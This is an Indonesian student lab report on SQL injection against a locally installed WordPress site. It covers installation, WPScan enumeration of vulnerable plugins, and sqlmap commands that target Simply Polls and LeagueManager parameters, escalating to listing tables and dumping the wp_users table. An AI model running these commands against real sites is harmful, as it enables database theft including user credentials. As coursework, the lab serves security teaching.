 # Tugas 2 - SQL Injection

#### Anggota Kelompok
- Tionia Rizkika (5114100053)
- Destiana Nurliasari (5114100148)
- Afifah Asmar Sari (5114100154)

- - - -

## Pendahuluan

## Dasar Teori

### OS yang Digunakan

#### Ubuntu Desktop
Ubuntu merupakan salah satu distribusi Linux yang berbasiskan Debian dan didistribusikan sebagai software bebas. Ubuntu Desktop ditujukan untuk user yang memakai Ubuntu sebagai end user. Pada Ubuntu Desktop telahterinstall beberapa aplikasi, diantaranya: LibreOffice, Mozilla Firefox, dan Mozilla Thunderbird. Ubuntu Desktop mengompile paket menggunakan fitur gcc seperti PIE dan proteksi Buffer Overflow untuk memproteksi software.

### Wordpress Plugin yang Digunakan

#### 1. VideoPlayer 1.5.16
Merupakan Plugin yang digunakan untuk menambahkan video pada Wordpress website. Pada plugin ini terdapat fitur untuk membuat playlist video, mengatur layout dan tampilan dari player dan terintegrasi dengan beberapa media sosial (Facebook, Google+ dan Twitter). Plugin ini dapat diunduh pada https://wordpress.org/plugins/player/

#### 2. LeagueManager 3.9.1.1
Merupakan plugin yang digunakan untuk mengatur dan menampilkan hasil dari pertandingan olahraga pada Wordpress website. Plugin ini dapat diunduh pada https://wordpress.org/plugins/leaguemanager/

#### 3. Simply Polls 1.4.1
Merupakan plugin yang digunakan untuk membuat poll pada Wordpress website. Poll yang dibuat dapat ditampilkan pada sidebar, post, maupun pages dari website. Plugin ini dapat diunduh pada https://wordpress.org/plugins/simply-polls/

### Tools yang Digunakan

#### 1. WPScan
Merupakan tools untuk melihat celah keamanan dari seluruh plugin dan theme yang digunakan pada Wordpress website. Tools ini dibuat menggunakan bahasa ruby.

#### 2. sqlmap
Merupakan tools opensource yang mendeteksi dan melakukan exploit pada bug SQL injection secara otomatis. dengan melakukan serangan SQL injection seorang attacker dapat mengambil alih serta memanipulasi sebuah database di dalam sebuah server.

## Instalasi

### Langkah Instalasi Wordpress
- Download Wordpress dari alamat: <pre>https://wordpress.org/download/</pre>
- Extract hasil file hasil dari download pada directori home, bila menggunakan OS Windows dan XAMPP maka directori default ada pada: <pre>C:\xampp\htdocs\ </pre>
- (Opsional) Rename folder hasil extract bila diperlukan.
- Buka file **'wp-config-sample.php'** menggunakan text-editor, ubah pengaturan database sesuai dengan kehendak:
![atur database](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wp-configPNG.PNG)
- Untuk mengubah url, tambahkan: <pre>
define('WP_HOME',    'http://alamatip/nama_folder');
define('WP_SITEURL', 'http://alamatip/nama_folder');
</pre>

- Simpan dan ubah nama menjadi **'wp-config.php'**.
- Pada browser buka url yang telah di inputkan sebelumnya pada **'wp-config.php'**, seperti: <pre>
http://192.168.100.19/wordpress/ -> (http://alamatip/nama_folder)
</pre> dike

- Pilih bahasa instalasi:

![pilih bahasa](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/step1.PNG)

- Input data user dan web:

![data user](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/step2.PNG)

- Instalasi wordpress telah selesai, untuk menggunakan mengatur wordpress login dengan mengklik button 'Login' atau pada alamat:<pre>http://alamatip/nama_folder/wp-login/ </pre>

![instalasi](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/step3.PNG)

### Langkah Instalasi Wordpress Plugin

- Masuk pada halaman pengaturan wordpress melalui: <pre>http://alamatip/nama_folder/wp-login/ </pre>
- Pilih tab plugin.

![tab plugin](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/plugin1.PNG)

- Pilih 'Add New'.
- Pilih plugin yang dikehendaki untuk diinstal bila telah memiliki file plugin, maka pilih 'Upload File'.

![upload file](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/plugin2.PNG)

- Pilih 'Choose File' untuk memilih plugin yang tersimpan secara lokal. Kemudian pilih 'Install Now'.

![choose file](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/plugin3.PNG)

- Instalasi plugin akan berjalan. Plugin telah berhasil di install.

![instalasi selesai](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/plugin4.PNG)

## Uji Coba

### WPScan

- Buka terminal pada folder dimana wpscan berada, jalankan perintah:<pre>
ruby wpscan.rb --url alamat_site  --enumerate vp
</pre>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameter  `vp`  pada  `--enumerate`  untuk memunculkan hasil plugin yang vulnerable.

- Hasil dari WPScan:

![hasil 1](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscanrun1.png)
![hasil 2](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscanresult1.png)
![hasil 3](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscan%202.png)
![hasil 4](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscan%203.png)
![hasil 5](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscan%204.png)
![hasil 6](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscan%205.png)
![hasil 7](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscan%206.png)
![hasil 8](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/wpscan%207.png)

### sqlmap

#### Plugin - Simply Poll 1.4.1
- Buka terminal pada folder dimana sqlmap berada, jalankan perintah:<pre>
python sqlmap -u "http://alamat_site/wp-admin/admin-ajax.php"  --data="action=spAjaxResult&&pollid=iddaripoll" --dbms=mysql --level=5 --risk=3
</pre>

![simplypol 1](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll1.png)
![simplypol 2](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll2.png)
![simplypol 3](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll3.png)

- Dari hasil sebelumnya telah didapatkan parameter yang vurnable, untuk mendapatkan list table yang terdapat di databasa sasaran maka tambahkan `-p pollid --tables` pada perintah dan jalankan. Hasil:

![simplypol 4](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll4.png)
![simplypol 5](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll5.png)
![simplypol 6](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll6.png)
![simplypol 7](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll7.png)
![simplypol 8](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll8.png)

- Dari hasil sebelumnya didapatkan list database dan table yang ada pada server. Untuk mendapatkan isi tabel wp_users dari database wordpress, maka tambahkan `-D wordpress -T wp_users` pada perintah dan jalankan. Hasil:

![simplypol 9](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll9.png)
![simplypol 10](https://raw.githubusercontent.com/dns-148/PKSJ/master/Tugas%202/screenshot/simplypoll10.png)

#### Plugin - League Manager 3.9.11
- Buka terminal pada folder dimana sqlmap berada, jalankan perintah:<pre>
python sqlmap.py --url "http://alamat_site?match=1" --level 5 --risk 3 --dbms mysql --tables
</pre>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Hasil:
- atau:<pre>
python sqlmap.py --url "http://alamat_post_mengandung_plugin?league_id=1&season=Winter" --level 5 --risk 3 --dbms mysql --tables
</pre>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Hasil:

## Kesimpulan dan Saran

### Kesimpulan

### Saran



